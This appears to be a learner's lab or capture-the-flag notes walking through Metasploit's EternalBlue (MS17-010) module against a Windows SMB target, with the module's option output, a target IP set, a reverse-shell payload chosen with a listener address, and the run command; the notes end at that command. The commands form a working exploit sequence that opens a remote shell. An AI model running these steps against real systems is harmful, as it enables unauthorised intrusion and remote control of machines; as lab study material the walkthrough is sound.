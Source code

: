 --> then I needed to show some options so I did the following:
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), see https://github.com/ra
                                             pid7/metasploit-framework/wiki/Using-Metasplo
                                             it
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for auth
                                             entication. Only affects Windows Server 2008
                                             R2, Windows 7, Windows Embedded Standard 7 ta
                                             rget machines.
   SMBPass                         no        (Optional) The password for the specified use
                                             rname
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit
                                             Target. Only affects Windows Server 2008 R2,
                                             Windows 7, Windows Embedded Standard 7 target
                                              machines.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. On
                                             ly affects Windows Server 2008 R2, Windows 7,
                                              Windows Embedded Standard 7 target machines.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process
                                        , none)
   LHOST     192.168.251.131  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target




--> RHOSTS is the required value and is the target host IP (I assume) so I needed to set this:
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOST 10.10.14.78
RHOST => 10.10.14.78

--> other, final, thing I had to do was to specify the paylaod:
msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/shell/reverse_tcp
payload => windows/x64/shell/reverse_tcp


-->after both of these variables have been set the next step is to run the exploit!:
msf6 exploit(windows/smb/ms17_010_eternalblue) > run
